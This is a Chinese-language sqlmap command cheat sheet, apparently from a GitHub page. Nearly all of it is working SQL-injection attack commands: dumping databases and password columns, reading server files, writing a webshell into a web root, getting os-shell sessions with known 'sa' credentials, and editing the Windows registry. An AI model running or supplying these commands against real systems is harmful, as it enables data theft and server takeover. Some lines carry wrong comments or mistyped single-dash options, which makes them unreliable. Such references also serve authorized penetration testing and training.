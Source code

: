 ```bash
```

**获取信息**

```bash
sqlmap -u URL --current-db          # 获取当前数据库
sqlmap -u URL --dbs                 # 枚举所有数据库
sqlmap -u URL -f                    # 检查 DBMS 版本
sqlmap -u URL --is-dba              # 判断当前用户是否是 dba
sqlmap -u URL --users               # 列出数据库管理系统用户
sqlmap -u URL --privileges          # 枚举 DBMS 用户权限
sqlmap -u URL --passwords           # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns           # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all            # 列出所有数据库,所有表内容
```

**搜索字段**

```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password  # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注 : mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**

```bash
sqlmap -u URL --sql-shell                       # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell                        # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig                 # 在注入点直接执行命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell  # 知道数据库密码后提权成为交互式系统shell
```

**对 Windows 注册表操作**

```bash
--reg-read                                      # 读取注册表值
--reg-add                                       # 写入注册表值
--reg-del                                       # 删除注册表值
--reg-key,--reg-value,--reg-data,--reg-type     # 注册表辅助选项

sqlmap -u URL --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```
